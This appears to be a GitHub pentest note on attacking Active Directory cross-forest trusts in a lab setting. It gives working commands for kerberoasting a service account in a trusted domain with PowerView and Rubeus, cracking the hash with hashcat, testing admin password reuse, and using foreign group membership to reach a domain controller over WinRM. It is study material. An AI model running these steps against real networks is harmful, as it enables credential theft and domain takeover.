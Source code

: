 # Attacking Domain Trusts - Cross-Forest Trust Abuse 🖥️ - From Windows
Kerberos-based attacks—such as **Kerberoasting** and ASREPRoasting—can be executed across domain or forest trusts, depending on the trust direction.
If you're operating within a domain that has an inbound or **bidirectional** trust with another domain or forest, you may be able to leverage that trust to launch attacks in the trusted domain.
In some cases, privilege escalation within your current domain may not be possible. However, you might still be able to request a **Kerberos service ticket (TGS)** for an administrative account in the trusted domain. Once obtained, the ticket hash can be cracked offline, potentially giving you credentials for a user with Domain Admin or Enterprise Admin privileges across both domains—thus giving you a powerful foothold.
#### Consider You are a user of domain CORP.LOCAL and found a trust Bidirection to domain DOM.LOCAL like the following examole from BLOODHOUND
<img width="1867" height="388" alt="image" src="https://github.com/user-attachments/assets/e00a4627-2f77-497f-882d-e5307d8f45bd" />

### Enumerating accounts in a target domain that have SPNs associated with them Using PowerView:
```powershell
Get-DomainUser -SPN -Domain <TargetDomain> | select SamAccountName
```
<img width="1504" height="250" alt="image" src="https://github.com/user-attachments/assets/2b1e92aa-f4e3-4616-8dfb-30e06c4dcead" />

### Enumerating the mssqlsvc Account
<img width="1657" height="214" alt="image" src="https://github.com/user-attachments/assets/245a75ee-1096-45f8-ac13-d30a16462bc1" />

### Perform a Kerberoasting attack across the trust using Rubeus
```powershell
.\Rubeus.exe kerberoast /domain:DOM.LOCAL /user:mssqlsvc /nowrap
```
<img width="1632" height="370" alt="image" src="https://github.com/user-attachments/assets/64e77fda-8e07-4293-9f20-9edf86448206" />
Copy the Hash on Kali-Machine

### Crack the hashes
```shell
sudo hashcat -m 13100 hash.hash /usr/share/wordlists/rockyou.txt
```

---

## **Admin Password Reuse & Cross-Forest Group Membership**

#### 🔁 **Password Reuse Between Trusted Domains**

* In environments with **bidirectional forest trusts**, both forests might be managed by the same company and admins.
* If you compromise **Domain A** and obtain the **NT hash or cleartext password** of:

  * The **built-in Administrator**, or
  * A user in **Domain Admins** or **Enterprise Admins**,
    …check if **Domain B** has a similarly named account with **the same password**.

✅ **Why?** Because admins sometimes reuse passwords across domains.

**Example:**

* Domain A has `adm_bob.smith` in Domain Admins.
* Domain B has `bsmith_admin`.
* If both accounts share the same password, taking over Domain A could give **full admin access to Domain B**.


#### 👥 **Cross-Forest Group Membership**

* In **bidirectional forest trusts**, admins from one domain can be members of groups in another.
* **Domain Local Groups** (in Domain B) can include **users from Domain A**.
* If a **Domain A admin** is added to the **Administrators group in Domain B**, and you compromise that admin in Domain A—you now have **admin access in Domain B**.


#### 🔍 **Real Example:**

* Use PowerView’s `Get-DomainForeignGroupMember` to find **foreign users** in groups.

```powershell
Get-DomainForeignGroupMember -Domain DOM.LOCAL
Convert-SidToName <SID>
```
<img width="2023" height="556" alt="image" src="https://github.com/user-attachments/assets/399423dc-a805-447a-baea-20624d48f7cc" />
Output shows that the built-in Administrators group in DOM.LOCAL has the built-in Administrator account for the CORP.LOCAL domain as a member. We can verify this access using the Enter-PSSession cmdlet to connect over WinRM.

* Accessing DC03 Using Enter-PSSession

```powershell
Enter-PSSession -ComputerName DC03.DOM.LOCAL -Credential CORP\administrator
```
